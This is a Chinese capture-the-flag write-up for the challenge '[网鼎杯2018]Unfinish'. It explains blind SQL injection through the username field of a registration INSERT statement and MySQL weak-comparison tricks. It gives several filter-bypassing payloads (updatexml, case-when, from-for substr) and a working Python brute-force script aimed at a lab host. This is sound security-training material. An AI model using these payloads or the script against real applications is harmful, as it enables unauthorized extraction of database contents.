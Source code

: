 # \[网鼎杯2018]Unfinish

## \[网鼎杯2018]Unfinish

## 考点

* insert中的盲注
* MySQL的弱比较

## wp

扫描存在register.php，随便注册登录进去是一张图片。有注册也有登录，可以试试注入

在注册处用户名填`\'select-`，发现返回的用户名是`'select-`

如果注册处用户名是`1234"`，会302跳转，如果是`1234'`就还会是注册页面，这说明是用`'`闭合语句的。并且如果语句执行失败会是注册页面。

![](../.gitbook/assets/image\_rc8BLEiHfGofkRf4RiBrnr.png)

可以猜出来后端代码

```sql
insert into table (id,email,name,pass) values (1,'123@qq.com','123','123')
select name from table where email='123@qq.com'
```

传入`0'or 0 or '0`，name返回的是0。传入`0'or 1 or '0`返回的是1。

先构造insert的报错注入，`' or updatexml(1,concat(0x7e,database()),0) or '`，结果返回`nnnnoooo!!!`

![](../.gitbook/assets/image\_eXk5YwzymYzxjmDKfgmBwj.png)

经过一番尝试，发现是过滤了`,`，那就不能用if语句盲注，可以用`case when`

payload

```sql
0'or (select case ascii(substr(database() from 1 for 1)) when 119 then 1 else 0 end) or '0
```

用ASCII码逐个爆破即可，可以得到数据库`web`，但是这里ban了`information`

```sql
import re
import string
import requests
import time

table = string.digits+string.ascii_letters+'_{}-'


flag = ''
for i in range(1,50):
    for j in table:
        # 防止请求次数太多
        time.sleep(0.3)
        paylaod = f"0'or (select case ascii(substr((select * from flag) from {str(i)} for 1)) when {ord(j)} then 1 else 0 end) or '0"
        
        name = str(time.time())
        data = {
          'email': f'1234567890{name}@qq.com',
          'username': paylaod,
          'password': '123'
        }
        
        response1 = requests.post('http://3b088f53-2ed9-4a06-b297-024436308dbb.node4.buuoj.cn:81/register.php',data=data)
        
        data_log = {
          'email': f'1234567890{name}@qq.com',
          'password': '123'
        }
        
        response2 = requests.post('http://3b088f53-2ed9-4a06-b297-024436308dbb.node4.buuoj.cn:81/login.php',data=data_log)
        
        try:
            # re.DOTALL匹配包括回车在内的所有字符
            t = re.search('<span class="user-name">.*</span>',response2.text,re.DOTALL)
            tt=re.search('\d+',t.group())
        
            if tt.group()=='1':
                flag = flag + j
                print(flag)
                break
            else:
                pass
        except:
            continue
```

还有一种方法是用sql的弱比较，会把`'0'+119+'0'`这种做加法运算，payload如下

`0'+ascii(substr(database() from 1 for 1))+'0`。这会在name处回显查询的值

![](../.gitbook/assets/image\_nYgUtF4c3KCzfNNbPLAu9E.png)

## 小结

1. insert语句中可以使用`0'or 0 or '0`根据返回结果判断盲注是否存在
2. 在substr函数的`,`被过滤时，可以使用`from 1 for 1`
3. 在if被过滤时，可以使用case when。`0'or (select case ascii(substr(database() from 1 for 1)) when 119 then 1 else 0 end) or '0`
4. MySQL存在弱比较，会把`'0'+119+'0'`做加法运算。`0'+ascii(substr(database() from 1 for 1))+'0`
